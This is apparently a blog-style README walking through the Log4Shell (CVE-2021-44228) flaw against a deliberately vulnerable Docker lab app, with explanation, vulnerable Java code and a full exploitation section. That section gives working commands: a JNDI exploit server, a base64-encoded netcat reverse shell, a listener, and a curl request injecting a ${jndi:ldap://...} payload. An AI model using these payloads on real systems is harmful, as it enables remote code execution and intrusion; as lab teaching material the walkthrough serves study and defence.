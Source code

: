 # log4shell

![fire log4j](./images/fire.jpeg)

`CVE-2021-44228` a zero-day critical java vulnerablility leads to Remote Code Execution (RCE), if you wanna read the story of vulnrability check this [article](https://www.lunasec.io/docs/blog/log4j-zero-day/)

> I lost my md files of this [blog](https://b0yk4.github.io/), this md file is temporary until i rebuild and update my blog.

Here I will talk about much technical details, how the exploit works, how to exploit and how to metigate.

Tools needed:
- [docker container](https://docs.docker.com/engine/install/ubuntu/)
- [vulnrable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [JNDIExploit](https://web.archive.org/web/20211212102424/https://github.com/feihong-cs/JNDIExploit/)

## overview

This whole massive story is because of a variable get logged by `log4j` library 
```java
log.info("user name: ", userName);
```
And if this variable is controlled by the user whether it's an http header or any user input then the user can do arbitrary code execution with this variable value using the log4j format 
```txt
${java:version}
```
So any java application using log4j library for logging will be vulnerable not just `apache` it could be laterally **any java application** 

## log4j library
log4j has [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) feature, Lookups provide a way to add values to the Log4j configuration at arbitrary places. As we said java version as example `${java:version}`

The lookup we intersted in is `jndi lookup` which enalbles the app to communicate with `ldap` server.

![JNDIarch](./images/jndiarch.jpg) 

in normal scenario the `jndi` expects to recieve a java class from the `ldap` server
![JNDI](./images/jndi-ldap.png)

the abusing of this lookup is to make our ldap server and call it by changing the logged variable with `${jndi:ldap://our-ip:1389/malitious-class}`

![JNDI exploit](./images/jndi-ldap-exploit.png)

vulnerable code example:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

## set up vulnerable app

after installing [docker container](https://docs.docker.com/engine/install/ubuntu/), clone the vulnerable app and build it 

```sh
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
sudo docker build . -t vulnerable-app
```
run the app on port 8080 or any port you want
```sh
sudo docker run --rm -p8080:8080 vulnerable-app
```
now we have a server up and running with a vulnerable app

## exploitation
get the JNDI injector and run it with your machine ip
```sh
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.96.133
```
this JNDIExploit takes the commands and converts it to java class and send it back to the server interface

![JNDIExploit](./images/exploit1.png)

we need a reverse shell to connect back to our kali machie 
```sh
echo -n "nc 192.168.96.133 4444 -e /bin/sh"|base64
```
bmMgMTkyLjE2OC45Ni4xMzMgNDQ0NCAtZSAvYmluL3No

lets set netcat listener
```sh
nc -lvvp 4444
```

now its time to send the malitious string as a value of `X-Api-Version` http header, which will connect to our running JNDI injector with `ldap` on port `1389` giving it our reverse shell command
```sh
curl -H 'X-Api-Version: ${jndi:ldap://192.168.96.133:1389/Basic/Command/Base64/bmMgMTkyLjE2OC45Ni4xMzMgNDQ0NCAtZSAvYmluL3No}' 192.168.96.134:8080
```
the injector will send the malious java class to the target which will execute the command and gives us the shell

![shell](./images/exploit2.png)

## mitigation

follow [this guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/) for mitigation

